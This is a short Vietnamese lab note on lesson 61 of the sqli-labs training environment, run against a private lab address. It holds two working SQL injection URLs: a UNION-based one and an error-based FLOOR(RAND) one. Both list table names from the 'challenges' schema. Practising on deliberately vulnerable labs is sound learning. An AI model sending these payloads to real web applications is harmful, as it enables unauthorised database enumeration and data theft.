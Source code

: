 # Những việc làm được với lesson-61
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-61

![](../images/lesson61/screen_5.png)

1. Cấu trúc của bài này 
```
192.168.80.225/sqli-labs/Less-61/?id=0')) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

Tương tự làm giống như bài 60
```
192.168.80.225/sqli-labs/Less-61/?id=1')) and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```
![](../images/lesson61/screen_6.png)

Tồi ta sẽ di tìm key của bài này như những bài trước 

